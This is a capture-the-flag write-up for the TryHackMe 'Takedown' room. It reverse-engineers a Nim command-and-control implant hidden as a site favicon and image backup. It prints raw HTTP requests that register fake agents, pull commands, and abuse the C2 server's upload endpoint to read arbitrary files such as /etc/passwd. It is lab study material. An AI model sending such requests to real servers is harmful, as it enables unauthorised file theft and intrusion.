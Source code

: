 # Takedown

https://tryhackme.com/room/takedown

Rated "INSANE"

- the server exposes port 22 and 80
- on the site, the favicon.ico is a windows binary. Additionally, under /images is shuttlebug.jpg.bak (an IoC according to the rooms intro) which is also a binary. These are the same program, for windows and linux.

Which binary you reverse doesn't matter so much, as much as what it does. Opening them with Ghidra shows they are nim binaries, which is a bit tricky to reverse but still possible.

- the entry point is the function `NimMainModule`
- it checks two flags, -v and -h. -h prints a short help message, while -v is presumably 'verbose', as its checked throughout the program before a message is printed telling you what the program is doing
- first thing it does is run `whoami`, checking the response against a hardcoded username `c.oberst`, as the 'keyed username'. if this fails the program exits
- next it runs the `hostname` command, and stores the result
- after that, in initial_check_in__main, it makes an api request with the hostname given. this is to `http://takedown.thm.local/api/agents/register`, with the user-agent `Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5` and content type `application/json`. the content sent is `{"uid":"","hostname":""}` with the uid looking like a random string, and the hostname taken from above

  sending a request like:
  
  ```
  POST /api/agents/register HTTP/1.1
  Host: takedown.thm.local
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
  Connection: close
  Content-Type: application/json
  Content-Length: 43

  {"uid":"fakeuid","hostname":"fakehost"}
  ```
  
  can be seen to respond with:
  
  ```
  New agent UID: fakeuid on host fakehost
  ```

- once registered, it enters a loop. this makes a call (in `check_for_commands__main`) to `http://takedown.thm.local/api/agents/[UID]/command` (with the useragent from before)

  this can be seen with
  
  ```
  GET /api/agents/fakeuid/command HTTP/1.1
  Host: takedown.thm.local
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
  Connection: close

  ```
  
  which responds with values like
  
  - `upload bar.txt foo.txt`
  - `id`
  - `whoami`
  - `hostname`
  - `pwd`

- when it receives a command, this is passed to `command_handler__main`, which splits the command on spaces. there are only a fixed number of commands, of which the most interesting are `upload` and `download`. the command is run and then the result returned to main
- once run, the results are sent back to the command api handler as a post request, with the value in a results parameter:

  ```
  POST /api/agents/fakeuid/command HTTP/1.1
  Host: takedown.thm.local
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
  Connection: close
  Content-Type: application/json
  Content-Length: 25

  {"results":"fakeresult"}
  ```

  comes back with `OK`
  
- the upload command appears to mean upload a file from the server to the host:

  ```
  POST /api/agents/fakeuid/upload HTTP/1.1
  Host: takedown.thm.local
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
  Connection: close
  Content-Type: application/json
  Content-Length: 22

  {"file":"bar.txt"}


  ```
  
  this responds with this file from the server. the path is straight interpreted: /etc/passwd works to grab that file
  
- download copies to the server, passing a payload like `{"file":"","data":""}`:

  ```
  POST /api/agents/fakeuid/download HTTP/1.1
  Host: takedown.thm.local
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
  Connection: close
  Content-Type: application/json
  Content-Length: 45

  {"file":"test.txt",
  "data":"dGVzdA=="
  }


  ```
  
  its unclear where this data lands
